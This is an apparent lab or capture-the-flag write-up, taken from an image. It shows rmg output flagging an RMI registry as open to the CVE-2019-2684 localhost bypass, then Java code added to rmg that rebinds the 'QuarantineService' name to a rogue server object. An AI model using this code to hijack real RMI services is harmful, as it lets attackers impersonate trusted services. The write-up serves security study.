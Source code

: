 ```bash
[+]     - Caught NoSuchObjectException during activate call (activator not present).
[+]       Configuration Status: Current Default
```

Thats great, this makes everything much easier. It looks like that we can unbind the RMI service and this solve the problem that we had earlier.

```bash
[+] RMI registry localhost bypass enumeration (CVE-2019-2684):
[+]
[+]     - Caught NotBoundException during unbind call (unbind was accepted).
[+]       Vulnerability Status: Vulnerable
```

So since `rmg` can do this for us, I thought I could write a plugin for it to add some custom params we need for our server. Unfortunately the plugin plan failed miserably, but I just added some new classes and new methods to this tool and it now I guess the classes and methods we created for this tool should work!

**Class RegistryClient (RMG source)**

```java
    /**
     * Invokes the rebind method on the RMI endpoint. Basically the same as the bind method that
     * was already described above.
     *
     * @param boundName the bound name that will be rebound on the registry
     * @param payloadObject the remote object that is bind to the registry
     * @param localhostBypass whether to use CVE-2019-268 for the rebind operation
     * @param serverIPAddress server ip address for the RMI server to listen
     * @param clamAVServer clamAV server address
     */

    public static String[] clamAVAddress = new String[2];

    public void rebindObject(String boundName, Object payloadObject, boolean localhostBypass, String rougeServerAddress, String clamAVServer)
    { 
        QuarantineServiceImpl quarantineService = null;
        QuarantineService quarantineServiceStub = null;
        FileServiceImpl fileService = null;
        FileService fileServiceStub = null;
        
        boolean isQuaratineService = false;
        boolean isFileService = false;

        if (boundName.equals("QuarantineService")){
            Logger.printlnBlue("QurantineService bound name detected.");
            try {
                if (clamAVServer == null){
                    System.exit(0);
                    Logger.println("ClamAV server address is empty.");
                }
                clamAVAddress = checkTheServerIP(clamAVServer);
                String[] serverAddress = checkTheServerIP(rougeServerAddress);
                System.setProperty("java.rmi.server.hostname", serverAddress[0]);
                quarantineService = new QuarantineServiceImpl();
                quarantineServiceStub = (QuarantineService)UnicastRemoteObject.exportObject(quarantineService, Integer.parseInt(serverAddress[1]));
                payloadObject = quarantineService;
                isQuaratineService = true;
            }
            catch (Exception e) {
                System.out.println("Error: " + e.getMessage());
            }
        }
```